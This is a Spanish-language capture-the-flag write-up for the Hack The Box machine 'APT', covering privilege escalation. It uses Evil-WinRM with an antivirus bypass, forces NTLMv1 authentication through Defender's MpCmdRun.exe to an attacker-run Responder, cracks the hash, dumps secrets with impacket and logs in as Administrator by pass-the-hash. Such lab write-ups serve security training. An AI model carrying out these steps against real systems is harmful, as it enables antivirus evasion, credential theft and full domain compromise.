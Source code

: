 ## Privilege Escalation {-}

### Rootear la maquina {-}

Aqui vamos a tirar de **WinPeas**. Descargamos el winPEAS en nuestro equipo de atacante

```bash
wget https://github.com/carlospolop/PEASS-ng/blob/master/winPEAS/winPEASexe/binaries/x64/Release/winPEASx64.exe
```

Il lo cargamos desde Evil-WinRM

```powershell
cd C:\Users\henry.vinson_adm\AppData\Local\Temp
upload winPEASx64.exe
dir
.\winPEASx64.exe
```

Aqui vemos que no podemos lanzar el exe porque no lo pilla el antivirus. En este caso el defender no nos deja passar por los bypass normales
pero podemos hacer cositas con funcciones de Evil-WinRM.

```powershell
menu
Bypass-4MSI
Invoke-Binary /home/s4vitar/Desktop/HTB/APT/content/winPEASx64.exe
```

Tenemos que esperar que se acabe la ejecucion para ver el resultado.

Aqui no vemos nada interessante. Probamos otre binario de analysis, el [Seatbelt.exe](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/).

```bash
wget https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/raw/master/Seatbelt.exe
```

Lo cargamos nuevamente a la maquina victima

```powershell
Invoke-Binary /home/s4vitar/Desktop/HTB/APT/content/Seatbelt.exe
Invoke-Binary /home/s4vitar/Desktop/HTB/APT/content/Seatbelt.exe -group=all
```

Aqui podemos ver que el NTLM de version 1 esta expuesta en esta maquina.

Aqui vamos a tirar de [crack.sh](https://crack.sh/cracking-ntlmv1-w-ess-ssp/) en lo cual podemos tratar de utilizar el **responder** para
recuperar la llaves y crackearlas con [crack.sh](https://crack.sh)

1. Modificamos el fichero de configuracion de responder

    ```bash
    cd /usr/share/responder
    vi Responder.conf

    # cambiamos el challenge 
    Challenge = 1122334455667788
    ```

1. lanzamos el responder

    ```bash
    python3 responder.py -I tun0 --lm
    ```

1. desde la maquina victima aprovechamos del defender para scanear ficheros

    ```bash
    cd C:\Program Files\Windows Defender
    .\MpCmdRun.exe -Scan -ScanType 3 -File \\10.10.14.8\algoquenoexiste
    ```

Aqui vemos que hemos pillado el hash NTLMv1 de la propria maquina. Lo copiamos y usamos de ntlmv1-multi para crear el hash necessario para
romper con crack.sh

```bash
git clone https://github.com/evilmog/ntlmv1-multi
cd ntlmv1-multi
python3 ntlmv1.py --ntlmv1 'APT$::HTB:95ACA8C72487742B427E1AE5B8D5CE6830A49B5BBB58D384:95ACA8C7248774CB427E1AE5B8D5CE6830A49B5BB858D384:1122334455667788'
```

Aqui podemos copiar el hash en [crack.sh](https://crack.sh) usando un temporary email y recivimos un mail con la key.

```bash
impacket-secretsdump -hashes :d167c32388864b12f5f82feae86a7f798 'htb.local/APT$@apt'
```

Aqui ya vemos los hash de los usuarios y con evil-winRM no connectamos con el usuario administrator

```bash
evil-winrm -i apt -u 'Administrator' -H 'c370bddf384a691d811ff3495e8a72e2'
```

y visualizar la flag.
